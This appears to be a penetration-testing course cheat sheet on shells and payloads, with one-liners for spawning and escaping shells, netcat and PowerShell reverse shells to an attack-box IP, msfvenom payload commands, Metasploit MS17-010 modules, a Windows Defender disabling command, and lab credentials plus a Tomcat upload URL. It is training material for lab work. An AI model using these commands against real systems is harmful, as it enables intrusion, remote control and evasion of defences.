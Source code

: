 ```yaml
---
description: "A\_`shell`\_is a program that provides a computer user with an interface to input instructions into the system and view text output (Bash, Zsh, cmd, and PowerShell, for example)."
---
```


# 🐚 Shells & Payloads

| Shell Type    | Description                                                                                                                                                                                                                                     |
| ------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Reverse shell | Initiates a connection back to a "listener" on our attack box.                                                                                                                                                                                  |
| Bind shell    | "Binds" to a specific port on the target host and waits for a connection from our attack box.                                                                                                                                                   |
| Web shell     | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command. |

Non-Staged vs Staged Payloads\
![](.gitbook/assets/Untitled.png)

Interactive shells

| python -c 'import pty; pty.spawn("/bin/sh")'                           | Python command used to spawn an interactive shell on a linux-based system                        |
| ---------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------ |
| /bin/sh -i                                                             | Spawns an interactive shell on a linux-based system                                              |
| perl —e 'exec "/bin/sh";'                                              | Uses perl to spawn an interactive shell on a linux-based system                                  |
| ruby: exec "/bin/sh"                                                   | Uses ruby to spawn an interactive shell on a linux-based system                                  |
| Lua: os.execute('/bin/sh')                                             | Uses Lua to spawn an interactive shell on a linux-based system                                   |
| awk 'BEGIN {system("/bin/sh")}'                                        | Uses awk command to spawn an interactive shell on a linux-based system                           |
| find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \\; | Uses find command to spawn an interactive shell on a linux-based system                          |
| find . -exec /bin/sh \\; -quit                                         | An alternative way to use the find command to spawn an interactive shell on a linux-based system |
| vim -c ':!/bin/sh'                                                     | Uses the text-editor VIM to spawn an interactive shell. Can be used to escape "jail-shells"      |

```
vim
:set shell=/bin/sh
:shell
```

vim escape

## **Laudanum, One Webshell to Rule Them All**

location `/usr/share/laudanum`

## **Antak Webshell**

location `/usr/share/nishang/Antak-WebShell`

| Commands                                                                                                                                            | Description                                                                                                                                                                                  |
| --------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| xfreerdp /v:10.129.x.x /u:htb-student /p:HTB\_@cademy\_stdnt!                                                                                       | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol                                                                                                         |
| env                                                                                                                                                 | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use                  |
| sudo nc -lvnp \<port #>                                                                                                                             | Starts a netcat listener on a specified port                                                                                                                                                 |
| nc -nv \<ip address of computer with listener started>\<port being listened on>                                                                     | Connects to a netcat listener at the specified IP address and port                                                                                                                           |
| rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f                                                                                                             | /bin/bash -i 2>&1                                                                                                                                                                            |
| powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();\[byte\[]]$bytes = 0..65535 | %{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1                |
| Set-MpPreference -DisableRealtimeMonitoring $true                                                                                                   | Powershell command using to disable real time monitoring in Windows Defender                                                                                                                 |
| use exploit/windows/smb/psexec                                                                                                                      | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing smb & psexec                                                                  |
| shell                                                                                                                                               | Command used in a meterpreter shell session to drop into a system shell                                                                                                                      |
| msfvenom -p linux/x64/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf                                                      | MSFvenom command used to generate a linux-based reverse shell stageless payload                                                                                                              |
| msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe                                                        | MSFvenom command used to generate a Windows-based reverse shell stageless payload                                                                                                            |
| msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho                                                    | MSFvenom command used to generate a MacOS-based reverse shell payload                                                                                                                        |
| msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp                                                   | MSFvenom command used to generate a ASP web reverse shell payload                                                                                                                            |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp                                                      | MSFvenom command used to generate a JSP web reverse shell payload                                                                                                                            |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war                                                      | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload                                                                                                        |
| use auxiliary/scanner/smb/smb\_ms17\_010                                                                                                            | Metasploit exploit module used to check if a host is vulnerable to ms17\_010                                                                                                                 |
| use exploit/windows/smb/ms17\_010\_psexec                                                                                                           | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17\_010                                                                     |
| use exploit/linux/http/rconfig\_vendors\_auth\_file\_upload\_rce                                                                                    | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting rConfig 3.9.6                                                                      |
| python -c 'import pty; pty.spawn("/bin/sh")'                                                                                                        | Python command used to spawn an interactive shell on a linux-based system                                                                                                                    |
| /bin/sh -i                                                                                                                                          | Spawns an interactive shell on a linux-based system                                                                                                                                          |
| perl —e 'exec "/bin/sh";'                                                                                                                           | Uses perl to spawn an interactive shell on a linux-based system                                                                                                                              |
| ruby: exec "/bin/sh"                                                                                                                                | Uses ruby to spawn an interactive shell on a linux-based system                                                                                                                              |
| Lua: os.execute('/bin/sh')                                                                                                                          | Uses Lua to spawn an interactive shell on a linux-based system                                                                                                                               |
| awk 'BEGIN {system("/bin/sh")}'                                                                                                                     | Uses awk command to spawn an interactive shell on a linux-based system                                                                                                                       |
| find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \\;                                                                              | Uses find command to spawn an interactive shell on a linux-based system                                                                                                                      |
| find . -exec /bin/sh \\; -quit                                                                                                                      | An alternative way to use the find command to spawn an interactive shell on a linux-based system                                                                                             |
| vim -c ':!/bin/sh'                                                                                                                                  | Uses the text-editor VIM to spawn an interactive shell. Can be used to escape "jail-shells"                                                                                                  |
| ls -la \<path/to/fileorbinary>                                                                                                                      | Used to list files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute |
| sudo -l                                                                                                                                             | Displays the commands that the currently logged on user can run as sudo                                                                                                                      |
| /usr/share/webshells/laudanum                                                                                                                       | Location of laudanum webshells on ParrotOS and Pwnbox                                                                                                                                        |
| /usr/share/nishang/Antak-WebShell                                                                                                                   | Location of Antak-Webshell on Parrot OS and Pwnbox                                                                                                                                           |

## Assessment

access-creds.txt found in foothold

```jsx
to manage the blog:
- admin / admin123!@#  ( keep it simple for the new admins )

to manage Tomcat on apache
- tomcat / Tomcatadm

Change the passwords soon..
```

[http://172.16.1.11:8080/manager/html/upload?org.apache.catalina.filters.CSRF\_NONCE=5D087425CE273DBDB0B3FD7EED95E42C](http://172.16.1.11:8080/manager/html/upload?org.apache.catalina.filters.CSRF\_NONCE=5D087425CE273DBDB0B3FD7EED95E42C)
